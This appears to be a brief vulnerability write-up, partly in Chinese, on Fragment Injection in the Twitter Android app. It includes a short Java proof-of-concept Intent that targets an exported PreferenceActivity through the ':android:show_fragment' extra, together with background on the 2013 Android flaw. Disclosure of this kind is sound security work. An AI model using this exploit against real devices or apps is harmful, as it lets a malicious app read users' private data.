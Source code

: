 # 组件-twitter
twitter android app Fragment Injection

com.twitter.android.WidgetSettingsActivity extend PreferenceActivity and export.

PoC
private void testtwitter(){
	intent i = new Intent();
	i.segFlags(Intent.FLAG_ACTIVITY_CLEAR_TASK);
	i.setClassName("com.twitter.android","com.twitter.android.WidgetSettingsActivity");
	i.putExtra(":android:show_fragment","com.samsung.android.sdk.pen.objectruntime.preload.VideoIntentFragment");
	startActivity(i);
}

Install an app, in the case of non-root can obtain private information

# Cause
news in 2013 
A New Vulnerability in the Android Framework: Fragment Injection.
vulnerability: Settings,Gmail,Google Now,DropBox and Evernote.
Any App which extended the PreferenceActivity class exported was automatically vulnerable.it is due to the Android KitKat patch which requires applications to override the new method, PreferenceActivity.isValidFragment,

# Twitter不安全存储
